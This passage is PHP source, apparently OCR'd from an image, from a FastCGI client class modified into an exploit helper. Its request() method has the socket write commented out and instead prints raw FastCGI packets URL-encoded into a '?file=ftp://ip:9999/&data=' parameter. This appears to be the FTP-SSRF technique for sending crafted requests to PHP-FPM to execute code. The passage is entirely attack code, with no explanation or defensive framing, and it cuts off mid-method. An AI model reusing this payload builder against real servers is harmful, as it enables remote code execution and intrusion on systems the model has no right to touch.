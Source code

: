 ```php
    public function getValues(array $requestedInfo)
    {
        $this->connect();
        $request = '';
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999/&data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
```